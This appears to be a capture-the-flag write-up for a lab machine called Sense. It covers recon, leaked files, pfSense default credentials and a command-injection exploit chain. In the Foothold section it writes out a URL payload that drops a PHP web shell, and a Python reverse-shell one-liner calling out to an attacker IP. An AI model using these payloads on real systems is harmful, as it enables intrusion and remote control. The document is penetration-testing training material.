





# Sense

## Machine Info


## Recon

- nmap

```
PORT    STATE SERVICE  VERSION
80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://sense.htb/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
|_http-title: 501
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): Comau embedded (88%)
Aggressive OS guesses: Comau C4G robot control unit (88%)
No exact OS matches for host (test conditions non-ideal).
```

```
| http-enum:
|   /javascript/sorttable.js: Secunia NSI
|   /changelog.txt: Interesting, a changelog.
|_  /tree/: Potentially interesting folder
```

- changelog.txt -> one vuln remaining in this system

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

- path recon -> `system-users.txt` -> username: **Rohit**

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

## Foothold

### Default Cred for pfSense

- cred: **rohit:pfsense**



### CVE-2014-4688

system enum:

- PFSense **2.1.3**-RELEASE (amd64) built on Thu May 01 15:52:13 EDT 2014 FreeBSD 8.3-RELEASE-p16

exploit methodology:

- [PfSense Vulnerabilities Part 2: Command Injection - Protean Security](https://www.proteansec.com/linux/pfsense-vulnerabilities-part-2-command-injection/)
- POC:





- RCE POC: `https://10.10.10.60/status_rrd_graph_img.php?database=queues;cd%20..;cd%20..;cd%20..;cd%20..;cd%20usr;cd%20local;%20cd%20www;echo%20%27%3C?php%20system($_GET[%22cmd%22\]);?%3E%27%3Ea.php`
- rshell payload:
  - `python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.39",1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`
  - URL: `https://10.10.10.60/a.php?cmd=python -c 'import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.14.39",1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'`



- Besides, exploitdb 43560 from searchsploit (unfortunately, this exploit is in 2018 while the machine is in 2017)



### CVE-2016-10709

another vulnerability for this system: [CVE-2016-10709 : pfSense before 2.3 allows remote authenticated users to execute arbitrary OS commands via a '|' character in the status_ (cvedetails.com)](https://www.cvedetails.com/cve/CVE-2016-10709/)

## Exploit Chain

path enum -> sensitive file leakage -> username get -> default pass -> rce -> root shell
